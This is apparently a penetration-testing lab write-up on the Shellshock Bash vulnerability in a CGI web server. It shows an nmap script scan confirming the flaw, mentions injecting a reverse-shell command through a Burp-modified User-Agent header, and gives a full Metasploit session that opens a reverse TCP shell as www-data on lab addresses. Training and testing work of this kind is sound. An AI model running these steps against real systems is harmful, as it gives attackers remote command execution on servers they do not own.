


# Shellshock

Explore the webpage to get the cgi file, then run the nmap script:

```
root@attackdefense:~# nmap -sV 192.113.227.3 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-15 22:09 IST
Nmap scan report for target-1 (192.113.227.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
|_http-server-header: Apache/2.4.6 (Unix)
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known as Shellshock. It seems the server
|       is executing commands injected via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
MAC Address: 02:42:C0:71:E3:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.51 seconds
```

Then using Burp suite we can alter the user-agent values to exploit the vulnerability:



Using this we can send a command to get a reverse shell



We can also use Metasploit:

```
msf > use exploit/multi/http/apache_mod_cgi_bash_env_exec

msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                            yes       The target address
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host

Exploit target:

   Id  Name
   --  ----
   0   Linux x86

msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhost 172.16.1.102
rhost => 172.16.1.102

msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /cgi-bin/hello.sh
targeturi => /cgi-bin/hello.sh

msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp

msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > check
[*] 172.16.1.102:80 The target is vulnerable.

msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 172.16.1.100:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (36 bytes) to 172.16.1.102
[*] Command shell session 2 opened (172.16.1.100:4444 -> 172.16.1.102:49499) at 2018-07-16 13:55:15 -0500

id
uid=33(www-data) gis=33(www-data) groups=33(www-data)
whoami
www-data
```
